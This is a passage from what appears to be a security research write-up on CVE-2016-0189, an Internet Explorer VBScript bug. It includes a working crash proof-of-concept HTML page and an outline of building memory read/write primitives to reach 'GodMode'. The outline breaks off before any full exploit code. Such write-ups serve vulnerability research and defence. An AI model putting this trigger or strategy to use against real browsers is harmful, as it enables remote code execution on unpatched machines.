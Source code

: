 ```html
<html>
<meta http-equiv="x-ua-compatible" content="IE=10">
<body>
    <script type="text/vbscript">
        Dim aw

        Class ArrayWrapper
            Dim A()
            Private Sub Class_Initialize
                ReDim Preserve A(1, 20000)
            End Sub
            Public Sub Resize()
                ReDim Preserve A(1, 1)
            End Sub
        End Class

        Function crash (arg1)
            Set aw = New ArrayWrapper
            MsgBox aw.A(arg1, 20000)
        End Function

        Function triggerBug
            aw.Resize()
        End Function
    </script>

    <script type="text/javascript">
        alert(1);
        var o = {"valueOf": function () { triggerBug(); return 1; }};
        setTimeout(function() {crash(o);}, 50);
    </script>
</body>
</html>
```

<img src="{{ site.url }}/images/2016-06-22/vbscript_crash_poc.png" style="display: block; margin: auto; border: 1px solid #CCC">


### Exploit

Arbitrary read/write primitives are very powerful in exploitation. In order to make the exploit more readable, we made the operations into nice functions:

  - **getAddr**: Triggers the bug and "sprays" the object we want to get the address of, then searches in memory to find its address.
  - **leakMem**: Triggers the bug and reads the memory content at a given address.
  - **overwrite**: Triggers the bug and overwrites memory at a given address with `CSng(0)` (single-precision 0) variant -- suitable for our purpose to obtain "GodMode"[[2][godmode]{:target="_blank"}] by changing the flag to `0x04`.

With these operations, we can do the following:


[ms16-051]: https://technet.microsoft.com/en-us/library/security/ms16-051.aspx
[cve-2016-0189]: http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-0189
[south-korea]: http://www.symantec.com/connect/blogs/internet-explorer-zero-day-exploit-used-targeted-attacks-south-korea
[bindiff]: https://www.zynamics.com/bindiff.html
[godmode]: http://blog.trendmicro.com/trendlabs-security-intelligence/a-killer-combo-critical-vulnerability-and-godmode-exploitation-on-cve-2014-6332/
[elebp]: https://msdn.microsoft.com/en-us/library/bb250462%28v=vs.85%29.aspx?f=255&MSPPError=-2147217396#wpm_elebp
[zdi-14-270]: http://zerodayinitiative.com/advisories/ZDI-14-270/
[zdi-blog-post]: http://community.hpe.com/t5/Security-Research/There-s-No-Place-Like-Localhost-A-Welcoming-Front-Door-To-Medium/ba-p/6560786#.V2m7-pMrIo_
[sandbox-poc]: https://gist.github.com/worawit/1213febe36aa8331e092
[theori-github]: https://github.com/theori-io/cve-2016-0189